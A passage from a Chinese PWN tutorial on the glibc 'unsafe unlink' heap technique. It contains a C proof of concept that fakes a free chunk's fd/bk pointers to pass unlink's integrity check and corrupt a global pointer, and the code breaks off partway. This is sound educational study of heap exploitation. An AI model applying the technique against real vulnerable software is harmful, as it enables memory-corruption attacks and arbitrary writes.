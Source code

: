 # 前言
这一小节我们再次说明unsafe unlink这种攻击方式，为什么是再次说明？因为这种利用方式我们之前说过，但仍然是模棱两可（好吧，我承认当时完全没有看懂，这也就是我再看一遍漏洞的原因）：

[PWN入门（3-5-1）- unsortedbin的unlink（基础）](https://www.yuque.com/cyberangel/rg9gdm/kebg96)

[PWN入门（3-5-2）- unsortedbin的unlink（例题）](https://www.yuque.com/cyberangel/rg9gdm/yki7ng)

在这片文章中我们将结合malloc源码进行重新分析。

# 影响版本
所有glibc malloc

# POC
## POC源码
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

uint64_t *chunk0_ptr;

int main()
{
	setbuf(stdout, NULL);
	printf("Welcome to unsafe unlink 2.0!\n");
	printf("Tested in Ubuntu 18.04.4 64bit.\n");
	printf("This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	printf("The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x420; //we want to be big enough not to use tcache or fastbin
	int header_size = 2;

	printf("The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

	printf("We create a fake chunk inside chunk0.\n");
	printf("We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	printf("We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	printf("Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	printf("Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);

	printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
```